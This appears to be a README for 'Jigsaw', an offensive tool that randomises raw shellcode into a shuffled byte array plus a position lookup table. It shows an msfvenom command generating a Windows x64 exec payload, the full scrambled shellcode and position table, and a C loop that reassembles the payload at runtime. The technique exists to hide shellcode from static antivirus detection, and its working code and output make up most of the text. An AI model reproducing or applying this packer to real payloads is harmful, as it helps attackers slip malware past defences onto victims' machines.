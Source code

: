 # Jigsaw
Jigsaw takes a raw shellcode input and outputs randomized shellcode, a lookup table, and a C/C++ stub to translate the randomized shellcode back to a usable format.

## Usage
```python3 jigsaw.py inputfile.bin```

## Example
```
$ msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
$ python3 jigsaw.py calc.bin
$ cat jigsaw.txt
unsigned char jigsaw[276] = {0x5d, 0x8b, 0x8d, 0xc0, 0x01, 0x48, 0x80, 0x00, 0x87, 0x7c, 0xc0, 0x74, 0x48, 0x58, 0xd1, 0x95, 0x00, 0xe9, 0xbd, 0x63, 0xe0, 0x01, 0x65, 0x01, 0x4a, 0x48, 0x6f, 0x44, 0x6a, 0xa2, 0x0a, 0x4c, 0xb7, 0x88, 0x5a, 0x01, 0xbb, 0xac, 0x0d, 0xba, 0x4d, 0x41, 0x59, 0x42, 0x49, 0x50, 0x5e, 0xbb, 0x5a, 0x41, 0x83, 0xc9, 0x28, 0x20, 0x00, 0x52, 0x00, 0xd2, 0x24, 0x41, 0x4a, 0x01, 0xff, 0xd0, 0xff, 0x56, 0x20, 0x31, 0x56, 0x8b, 0x6c, 0x31, 0x12, 0xf0, 0x34, 0x48, 0xac, 0x41, 0x8b, 0x01, 0x58, 0x48, 0x48, 0x04, 0x88, 0x48, 0xff, 0x52, 0x05, 0x65, 0xc9, 0xc1, 0x48, 0x8b, 0x75, 0x40, 0xd0, 0x59, 0x4d, 0xff, 0x61, 0x1c, 0x75, 0x4c, 0x01, 0x52, 0x8b, 0xc9, 0x56, 0x8b, 0x0c, 0x48, 0x58, 0xf1, 0x41, 0x31, 0x00, 0xd0, 0xd0, 0xec, 0x00, 0x59, 0x13, 0xe0, 0x72, 0x8b, 0x48, 0xff, 0x40, 0xd0, 0x00, 0x02, 0x75, 0x85, 0x20, 0x80, 0xc4, 0x58, 0x48, 0xd6, 0xd8, 0x47, 0x41, 0x59, 0x48, 0x01, 0xa6, 0xda, 0x8b, 0x41, 0xc1, 0x00, 0xc1, 0x48, 0xff, 0x52, 0x00, 0xfc, 0x51, 0x3c, 0x8b, 0x57, 0xe2, 0x2c, 0x0d, 0x01, 0xed, 0x31, 0x58, 0x7c, 0xd5, 0x01, 0x41, 0x00, 0x3c, 0x45, 0x51, 0x01, 0x08, 0x41, 0x49, 0x65, 0x00, 0x44, 0x52, 0xd0, 0x48, 0x52, 0x00, 0x5a, 0x8b, 0x3c, 0xe8, 0xe3, 0x48, 0x40, 0x8d, 0xba, 0x31, 0x44, 0x01, 0xfb, 0xf0, 0x48, 0x83, 0x51, 0x2e, 0x8b, 0x00, 0x83, 0x48, 0x61, 0x00, 0x66, 0x88, 0x00, 0x41, 0x41, 0xd5, 0x06, 0x41, 0xe4, 0x52, 0x38, 0x60, 0x20, 0x6f, 0xc0, 0x48, 0x49, 0x41, 0x20, 0x63, 0xc0, 0x72, 0xc1, 0x8b, 0x39, 0xc9, 0xba, 0x78, 0x8b, 0x41, 0x8b, 0x41, 0x00, 0xff, 0x8b, 0x89, 0x48, 0x00, 0x31, 0xff, 0x41, 0x41, 0x50, 0xb5, 0x03, 0x48, 0x41, 0x18, 0x67, 0x48, 0x41, 0x50, 0x0f, 0x8b, 0x48, 0xe0, 0xd5, 0x24, 0x18, 0xc9, 0x9d, 0x48, 0x41 };

int positions[276] = { 202, 22, 214, 6, 126, 104, 249, 81, 225, 51, 119, 86, 182, 142, 139, 236, 208, 197, 237, 267, 251, 89, 272, 217, 41, 83, 258, 95, 259, 231, 248, 132, 39, 110, 193, 148, 228, 48, 124, 234, 42, 107, 179, 72, 99, 91, 173, 254, 175, 121, 242, 116, 244, 70, 211, 23, 8, 19, 146, 169, 40, 167, 226, 168, 201, 103, 54, 222, 232, 96, 269, 18, 196, 229, 109, 29, 120, 55, 163, 100, 172, 25, 1, 164, 79, 33, 105, 27, 253, 20, 44, 122, 241, 223, 140, 157, 90, 261, 114, 199, 268, 158, 252, 134, 112, 187, 34, 57, 16, 108, 153, 194, 170, 131, 262, 115, 209, 149, 161, 184, 82, 174, 256, 129, 35, 156, 111, 188, 145, 76, 275, 52, 130, 84, 185, 78, 243, 177, 21, 113, 141, 255, 176, 192, 154, 216, 235, 264, 92, 191, 127, 260, 56, 88, 265, 69, 219, 0, 66, 49, 77, 198, 62, 53, 58, 205, 63, 46, 190, 247, 227, 160, 233, 206, 245, 137, 15, 75, 136, 151, 147, 274, 212, 155, 64, 101, 37, 14, 218, 181, 68, 73, 5, 102, 203, 97, 215, 204, 118, 143, 60, 250, 4, 67, 183, 11, 271, 71, 9, 2, 74, 50, 7, 150, 165, 207, 65, 10, 266, 246, 171, 3, 31, 128, 24, 32, 224, 47, 45, 159, 162, 98, 270, 85, 257, 61, 195, 138, 106, 221, 273, 30, 180, 152, 125, 210, 239, 26, 263, 117, 80, 43, 200, 220, 178, 36, 230, 133, 17, 186, 94, 87, 93, 12, 13, 38, 144, 166, 189, 240, 135, 28, 123, 238, 213, 59 };


unsigned int calc_len = 276;
char calc_payload[276] = { 0x00 };
int position;

// Reconstruct the payload
for (int idx = 0; idx < sizeof(positions) / sizeof(positions[0]); idx++) {
        position = positions[idx];
        calc_payload[position] = jigsaw[idx];
}
